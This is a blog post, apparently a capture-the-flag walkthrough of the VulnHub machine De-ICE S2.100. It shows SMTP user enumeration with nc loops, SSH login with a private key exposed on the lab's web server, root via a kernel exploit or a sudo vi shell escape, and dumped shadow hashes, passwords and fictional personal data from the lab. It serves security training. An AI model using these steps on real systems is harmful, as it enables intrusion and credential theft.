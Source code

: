 ```yaml
---
layout: post
title: "DE-ICE-S2.100"
date: 2015-05-10 11:40:38 +0200
comments: true
categories: [vulnhub, deice]
---
```

Image: [De-ICE: S2.100](https://www.vulnhub.com/entry/de-ice-s2100,13/)

Nmap output:
{% codeblock %}
PORT    STATE  SERVICE  VERSION
21/tcp  open   ftp      vsftpd 2.0.4
22/tcp  open   ssh      OpenSSH 4.3 (protocol 1.99)
25/tcp  open   smtp     Sendmail 8.13.7/8.13.7
80/tcp  open   http     Apache httpd 2.0.55 ((Unix) PHP/5.1.2)
110/tcp open   pop3     Openwall popa3d
143/tcp open   imap     UW imapd 2004.357
{% endcodeblock %}

We found out that there is another IP address on the same network:
{% codeblock %}
Nmap scan report for 192.168.2.101
Host is up (0.00038s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:53:2F:A3 (VMware)
{% endcodeblock %}

Enumerating SMTP users, we get:
{% codeblock %}
root@kali:~# for i in $(cat /usr/share/ncrack/default.usr); do echo $i; echo -e "\nehlo lol\nmail from:$i@slax.example.net\nrcpt to:$i\nquit\n" | nc 192.168.2.100 25; done  | grep -i 'Recipient ok' 
250 2.1.5 root... Recipient ok
250 2.1.5 operator... Recipient ok
250 2.1.5 manager... Recipient ok
250 2.1.5 Manager... Recipient ok
250 2.1.5 adm... Recipient ok
250 2.1.5 lp... Recipient ok
250 2.1.5 MAIL... Recipient ok
250 2.1.5 system... Recipient ok
250 2.1.5 MANAGER... Recipient ok
250 2.1.5 OPERATOR... Recipient ok
250 2.1.5 halt... Recipient ok
250 2.1.5 Root... Recipient ok
250 2.1.5 SYSTEM... Recipient ok
250 2.1.5 ftp... Recipient ok
250 2.1.5 mail... Recipient ok
250 2.1.5 toor... Recipient ok
250 2.1.5 ROOT... Recipient ok
250 2.1.5 shutdown... Recipient ok
250 2.1.5 bin... Recipient ok
250 2.1.5 POSTMASTER... Recipient ok
250 2.1.5 nobody... Recipient ok
250 2.1.5 games... Recipient ok
250 2.1.5 postmaster... Recipient ok
250 2.1.5 NEWS... Recipient ok
250 2.1.5 sync... Recipient ok
250 2.1.5 INGRES... Recipient ok
250 2.1.5 daemon... Recipient ok
250 2.1.5 uucp... Recipient ok
250 2.1.5 Operator... Recipient ok
250 2.1.5 webmaster... Recipient ok
250 2.1.5 news... Recipient ok
{% endcodeblock %}

We used CEWL to create wordlist (userlist.txt) to reveal another user accounts.
Before we use this command, it's good to check if the disk is not full for
proper SMTP functionality.
{% codeblock %}
root@kali:# for i in $(cat ~/vulnhub/DE-ICE-S2.100/userlist.txt); do echo $i; echo -e "\nehlo lol\nmail from:$i@slax.example.net\nrcpt to:$i\nquit\n" | nc 192.168.2.100 25; done  | grep -i 'Recipient ok'
250 2.1.5 havisham... Recipient ok
250 2.1.5 magwitch... Recipient ok
250 2.1.5 pirrip... Recipient ok
{% endcodeblock %}

Again, this could be automatized using smtp-user-enum script:
{% codeblock %}
root@kali:# smtp-user-enum -M RCPT -f root@slax.example.net -U userlist.txt -t 192.168.2.100
{% endcodeblock %}

Dirb found the following URLs:
{% codeblock %}
http://192.168.2.101/~havisham/
http://192.168.2.101/~magwich/
http://192.168.2.101/~pirrip/
http://192.168.2.101/~pirrip/.ssh/
{% endcodeblock %}

We download the private key of pirrip user and log in:
{% codeblock %}
-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEA1pfb/CVukUw4Xe67YLEZzVHWNax0zJjI1CfcsoEGylmmtlA6
iXHi41nLshzXu9n536JfM9LFAWGqefBVX7Bzd/fC4+jHS3q89IK9FP7gFPwEmlNH
CwPX0ADxDFyB1lJOFffJ9gVw3VgHCaCPgS70UqJD0hZFDMSDMoBa91PylFQR0m58
nMq8DsGRbeC5hTdpLXKfBuW8v/lFuNEWVWNcZDie82aiJg8WRUUIrzeGZSR3+cG1
hi6za67VIi+ce8fFuBvIgaEpvJ0JSIX7zPLUV10ezW1NQRNplKSam3TIYI3+Ywuh
lcgpEyliHYReN6v91+um2c6LNy9y/vx2Akci5QIBIwKCAQEAvhF5s3GcchBPLqA/
kCfVBk/MW2zcerM1iLWXlsoNVCOFB+Co4CMKyV4pcd8IOKsfJSlqQ9fwUa5GiUKU
wne2urbf0S1CzdMcY4m9al4W7gPJkACeAnEeO+OTq9zoBvhxDCSc79ju7+7hqXD0
IfZjXyIBjjD7VHOKJWpfMtVTMunBCMqoAMa2veuN6LgDJweQNi7kon4qcj4SghGI
bdBv/Cnk7PMkG+DhafTRWyXGMWFpTHV4BNKv0i+k4lVV1oP9nJnh9jglY4EkD9LD
0Yt2QZt+XMTlxScsjcBpVGc9m4ZrgmRZGV0PTyMuWJtURkDBYPizkiPjjSZfUbyZ
y9QECwKBgQDsR9wLzrQbJIaOX8dG4rEt8pQHdYK7KCM8Bcq45iKKPzeLxchguM3o
+y9nRz5x8RWXWZUMl7PldoqwmrKh6WVCrdJ7mghPTYx3Djhcaf8q5XFTUhZH4xhB
72g1H6+JCECUjAFfjoSTOEswCFKYssgYA22x3fvLGg3S8f0UjjE1xQKBgQDogKVg
iyXCE833evccfrd/otsyVcxNincunAtYDAsqa2ZrjXL3oFwNwfC1CVKPhqDlnG46
M1tiSeYXygPbuPbHzRdu0ZuG7jRxxVdndl52gq/Zt8MKNRD9mdbFRcRMXmMRfaE4
RXdry9eB4rPywfWgJPGNVtOFZP6PRVv+IpoqoQKBgBRArHYKZzWGybRunA1j400U
ytwRYvoZYhsWcHY/nI+Bwu65Lm6wwTE6GgGJw4Yb+olQ0kLoboFh7qFsWHRHNJCv
0DZ66sT4BLm/Y+qp/+275SRmHyq7sZ9AaASNr/XNgeDYzOru9Wu0XjdRK6awPQlf
YSyAvc+UhNeRFbFOBDfPAoGAVlurI9vpc/i6N1mO+/SNTKo0KKOGZfGZ+16H3t/m
496/pEp7KMaIl2VKxuY0m7WpedsEXsKeSRQiQ1mpqWH1QuXG4AS2HCyXIvGG3Uk5
B3JekrH3/HocQO//UJZBmLVX/y6pmI7UlcC9wodnaMuzAPfHbwL+G5qKb7qtI+D3
busCgYATj4y+8msxNWRRNbHWAV7G0OurPDeZJ8F8NDLpM22X8fM08wgGRwkW4fpa
A+J8tN2ibiDqw29W6Rc1/4evAPbo3GR932W/ELOTOpP2yquiwoSxPG+HCLHmDITr
1qGHJRSOiFzo99iS5aQRhUvdl3M0lz1Cort7hjRKUkSWcT02Rw==
-----END RSA PRIVATE KEY-----
{% endcodeblock %}

{% codeblock %}
root@kali:~# chmod 600 pirrip-rsa.ssh
root@kali:~# ssh -l pirrip 192.168.2.100 -i pirrip-rsa.ssh
Linux 2.6.16.
pirrip@slax:~$

pirrip@slax:/etc$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1:bin:/bin:
daemon:x:2:2:daemon:/sbin:
adm:x:3:4:adm:/var/log:
lp:x:4:7:lp:/var/spool/lpd:
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/:
news:x:9:13:news:/usr/lib/news:
uucp:x:10:14:uucp:/var/spool/uucppublic:
operator:x:11:0:operator:/root:/bin/bash
games:x:12:100:games:/usr/games:
ftp:x:14:50::/home/ftp:
smmsp:x:25:25:smmsp:/var/spool/clientmqueue:
mysql:x:27:27:MySQL:/var/lib/mysql:/bin/bash
rpc:x:32:32:RPC portmap user:/:/bin/false
sshd:x:33:33:sshd:/:
gdm:x:42:42:GDM:/var/state/gdm:/bin/bash
pop:x:90:90:POP:/:
nobody:x:99:99:nobody:/:
pirrip:x:1000:10:Philip Pirrip:/home/pirrip:/bin/bash
magwitch:x:1001:100:Abel Magwitch:/home/magwitch:/bin/bash
havisham:x:1002:100:Estella Havisham:/home/havisham:/bin/bash
{% endcodeblock %}

The root accound can be obtained using exploit from Kali:
{% codeblock %}
root@kali:/usr/share/exploitdb# 

  * hoagie_udp_sendmsg.c
  * LOCAL LINUX KERNEL ROOT EXPLOIT (< 2.6.19) - CVE-2009-2698
{% endcodeblock %}

{% codeblock %}
sh-3.1# cat /etc/shadow
root:$1$/Ta1Q0lT$CSY9sjWR33Re2h5ohV4MX/:13882:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
pirrip:$1$KEj04HbT$ZTn.iEtQHcLQc6MjrG/Ig/:13882:0:99999:7:::
magwitch:$1$qG7/dIbT$HtTD946DE3ITkbrCINQvJ0:13882:0:99999:7:::
havisham:$1$qbY1hmdT$sVZn89wKvmLn0wP2JnZay1:13882:0:99999:7:::

sh-3.1# cat /var/access/.htpasswd
aadams:bS.PQ9hVYEqrQ
{% endcodeblock %}

There is another way to get root account. At first we find out the password for
pirrip user:
{% codeblock %}
pirrip@slax:/var/spool/mail$ cat pirrip

E-Mail: pirrip@slax.example.net
Password: 0l1v3rTw1st
{% endcodeblock %}

{% codeblock %}
pirrip@slax:/var/spool/mail$ sudo -l
pirrip@slax:/var/spool/mail$ sudo vi
:!/bin/bash
{% endcodeblock %}

Finally, in /root/.save we obtain the following data:

{% codeblock %}
From sikes@slax.example.net  Sun Jan 13 23:53:37 2008
Return-Path: <sikes@slax.example.net>
Received: from slax.example.net (localhost [127.0.0.1])
        by slax.example.net (8.13.7/8.13.7) with ESMTP id m0DNlmHb009636
        for <pirrip@slax.example.net>; Sun, 13 Jan 2008 23:47:48 GMT
Received: (from sikes@slax.example.net)
        by slax.example.net (8.13.7/8.13.7/Submit) id m0DNlmDI009635
        for pirrip; Sun, 13 Jan 2008 23:47:48 GMT
From: Bill Sikes <sikes@slax.example.net>
Message-Id: <200801132347.m0DNlmDI009635@slax.example.net>
Date: Sun, 13 Jan 2008 23:47:48 +0000
To: pirrip@slax.example.net
Subject: Raises
User-Agent: nail 11.25 7/29/05
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit

Here's the data for raises for your team:
Philip Pirrip:  734-67-0424 5.5% $74,224
Abel Magwitch:  816-03-0028 4.0% $53,122
Estella Havisham: 762-93-1073 12% $84,325
{% endcodeblock %}
